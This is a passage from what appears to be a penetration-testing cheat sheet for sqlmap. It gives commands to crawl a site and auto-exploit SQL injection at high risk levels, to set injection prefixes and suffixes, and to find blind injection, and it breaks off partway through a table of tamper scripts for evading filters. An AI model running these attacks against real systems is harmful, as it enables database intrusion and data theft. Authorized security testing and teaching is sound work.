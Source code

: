 ### Crawl a website with SQLmap and auto-exploit

```bash
sqlmap -u "http://example.com/" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3

--batch = non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--crawl = how deep you want to crawl a site
--forms = Parse and test forms
```

## Customizing Injection

### Set a suffix

```bash
python sqlmap.py -u "http://example.com/?id=1"  -p id --suffix="-- "
```

### Prefix

```bash
python sqlmap.py -u "http://example.com/?id=1"  -p id --prefix="') "
```

### Help finding boolean injection

```bash
# The --not-string "string" will help finding a string that does not appear in True responses (for finding boolean blind injection)
sqlmap -r r.txt -p id --not-string ridiculous --batch
```

### Tamper

```bash
--tamper=name_of_the_tamper
#In kali you can see all the tampers in /usr/share/sqlmap/tamper
```

| Tamper                       | Description                                                                                                                        |
| :--------------------------- | :--------------------------------------------------------------------------------------------------------------------------------- |
| apostrophemask.py            | Replaces apostrophe character with its UTF-8 full width counterpart                                                                |
| apostrophenullencode.py      | Replaces apostrophe character with its illegal double unicode counterpart                                                          |
| appendnullbyte.py            | Appends encoded NULL byte character at the end of payload                                                                          |
| base64encode.py              | Base64 all characters in a given payload                                                                                           |
| between.py                   | Replaces greater than operator \('&gt;'\) with 'NOT BETWEEN 0 AND \#'                                                              |
| bluecoat.py                  | Replaces space character after SQL statement with a valid random blank character.Afterwards replace character = with LIKE operator |
| chardoubleencode.py          | Double url-encodes all characters in a given payload \(not processing already encoded\)                                            |
| commalesslimit.py            | Replaces instances like 'LIMIT M, N' with 'LIMIT N OFFSET M'                                                                       |
| commalessmid.py              | Replaces instances like 'MID\(A, B, C\)' with 'MID\(A FROM B FOR C\)'                                                              |
| concat2concatws.py           | Replaces instances like 'CONCAT\(A, B\)' with 'CONCAT_WS\(MID\(CHAR\(0\), 0, 0\), A, B\)'                                          |
| charencode.py                | Url-encodes all characters in a given payload \(not processing already encoded\)                                                   |
| charunicodeencode.py         | Unicode-url-encodes non-encoded characters in a given payload \(not processing already encoded\). "%u0022"                         |
| charunicodeescape.py         | Unicode-url-encodes non-encoded characters in a given payload \(not processing already encoded\). "\u0022"                         |